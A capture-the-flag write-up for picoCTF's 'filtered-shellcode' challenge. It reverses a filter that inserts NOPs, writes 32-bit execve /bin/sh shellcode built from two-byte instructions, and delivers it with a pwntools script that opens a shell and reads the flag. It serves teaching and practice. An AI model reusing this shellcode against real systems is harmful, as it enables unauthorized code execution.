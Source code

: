 # filtered-shellcode
## Description
A program that just runs the code you give it? That seems kinda boring... [fun](fun) `nc mercury.picoctf.net 28494`
## Hints
1. Take a look at the calling convention and see how you might be able to setup all the registers
## Solution
1. Let's see what the program does.
```console
% nc mercury.picoctf.net 28494
Give me code to run:
abcd
timeout: the monitored command dumped core
```
2. Load it in Ghidra. It appears the program collects the input in `main` and sends it to an `execute` function.
```c
void execute(int param_1,int param_2)
{
  int iVar1;
  int iVar2;
  uint uVar3;
  undefined4 uStack48;
  undefined auStack44 [8];
  undefined *local_24;
  undefined *local_20;
  uint local_1c;
  uint local_18;
  int local_14;
  uint local_10;
  
  uStack48 = 0x8048502;
  if ((param_1 != 0) && (param_2 != 0)) {
    local_18 = param_2 * 2;
    local_1c = local_18;
    iVar1 = ((local_18 + 0x10) / 0x10) * -0x10;
    local_20 = auStack44 + iVar1;
    local_14 = 0;
    for (local_10 = 0; iVar2 = local_14, local_10 < local_18; local_10 = local_10 + 1) {
      uVar3 = (uint)((int)local_10 >> 0x1f) >> 0x1e;
      if ((int)((local_10 + uVar3 & 3) - uVar3) < 2) {
        local_14 = local_14 + 1;
        auStack44[local_10 + iVar1] = *(undefined *)(param_1 + iVar2);
      }
      else {
        auStack44[local_10 + iVar1] = 0x90;
      }
    }
    auStack44[local_18 + iVar1] = 0xc3;
    local_24 = auStack44 + iVar1;
    *(undefined4 *)(auStack44 + iVar1 + -4) = 0x80485cb;
    (*(code *)(auStack44 + iVar1))();
    return;
  }
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```
3. There is a lot of useless code in `execute` and the rest of it looks like a pain to reverse engineer. Load it in GDB, put a breakpoint at `(*(code *)(auStack44 + iVar1))();`, and let's compare `param1` and what's about to be executed.
```console
% gdb fun
(gdb) layout asm
(gdb) disass execute
(gdb) b *(execute+211)
Breakpoint 1 at 0x80485c9
(gdb) r
Starting program: /home/ryan/ctf/fun
Give me code to run:
AAAAAA
Breakpoint 1, 0x080485c9 in execute ()
(gdb) x/32bx *(int*)($ebp+8)
0xffffcd33:     0x41    0x41    0x41    0x41    0x41    0x41    0xb7    0xfc
0xffffcd3b:     0xf7    0xd4    0x6b    0xfd    0xf7    0xc4    0xb3    0xfc
0xffffcd43:     0xf7    0xb4    0xcd    0xff    0xff    0x30    0xdb    0xff
0xffffcd4b:     0xf7    0x01    0x00    0x00    0x00    0xd0    0x37    0xfc
(gdb) x/32bx $eax
0xffffcce0:     0x41    0x41    0x90    0x90    0x41    0x41    0x90    0x90
0xffffcce8:     0x41    0x41    0x90    0x90    0xc3    0x85    0x04    0x08
0xffffccf0:     0xc0    0x95    0xfa    0xf7    0xe0    0x83    0x04    0x08
0xffffccf8:     0xe0    0xcc    0xff    0xff    0xe0    0xcc    0xff    0xff
```
4. Looks like it inserts two `NOP` instructions (`0x90`) every two bytes. The following shellcode uses no larger than 2-byte instructions to get through the filter.
```assembly
BITS 32

payload:
    push    BYTE 0
    push    BYTE 0
    mov     ebx, esp
    mov     edi, esp

    mov     al, '/'
    stosb
    nop

    mov     al, 'b'
    stosb
    nop

    mov     al, 'i'
    stosb
    nop

    mov     al, 'n'
    stosb
    nop

    mov     al, '/'
    stosb
    nop

    mov     al, 's'
    stosb
    nop

    mov     al, 'h'
    stosb
    nop

    xor     eax, eax
    mov     al, 11
    xor     ecx, ecx
    xor     edx, edx
    int     0x80
```
```console
% nasm -o payload.bin payload.asm
% xxd -p payload.bin | tr -d '\n' | sed 's/\(..\)/\\x\1/g'
\x6a\x00\x6a\x00\x89\xe3\x89\xe7\xb0\x2f\xaa\x90\xb0\x62\xaa\x90\xb0\x69\xaa\x90\xb0\x6e\xaa\x90\xb0\x2f\xaa\x90\xb0\x73\xaa\x90\xb0\x68\xaa\x90\x31\xc0\xb0\x0b\x31\xc9\x31\xd2\xcd\x80
```
5. Deliver the payload.
```python
from pwn import *

payload = b'\x6a\x00\x6a\x00\x89\xe3\x89\xe7\xb0\x2f\xaa\x90\xb0\x62\xaa\x90\xb0\x69\xaa\x90\xb0\x6e\xaa\x90\xb0\x2f\xaa\x90\xb0\x73\xaa\x90\xb0\x68\xaa\x90\x31\xc0\xb0\x0b\x31\xc9\x31\xd2\xcd\x80'

server = remote("mercury.picoctf.net", 28494)
server.recvuntil(b'Give me code to run:\n')
server.sendline(payload)
server.interactive()
```
```console
% python exploit.py
[+] Opening connection to mercury.picoctf.net on port 28494: Done
[*] Switching to interactive mode
$ ls
flag.txt
fun
fun.c
xinet_startup.sh
$ cat flag.txt
picoCTF{th4t_w4s_fun_384f7c52706306d0}
```

